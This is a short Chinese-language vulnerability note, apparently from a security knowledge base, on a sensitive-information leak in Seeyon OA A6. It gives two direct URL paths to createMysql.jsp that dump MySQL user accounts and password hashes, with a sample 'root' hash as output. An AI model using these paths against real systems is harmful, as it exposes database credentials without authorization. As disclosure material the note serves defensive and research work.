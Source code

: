 致远OA A6 敏感信息泄露（一）
============================

一、漏洞简介
------------

该漏洞泄露了数据库用户的账号，密码hash。访问该文件直接执行了Select \*
from mysql.user;并回显

二、漏洞影响
------------

致远OA A6

三、复现过程
------------

##### 漏洞位置:

    http://www.0-sec.org/yyoa/createMysql.jsp

    http://www.0-sec.org/yyoa/ext/createMysql.jsp

回显内容：

    root

    *1532B21FE550E115F113DAA9A26D0EEEEF8DEDC

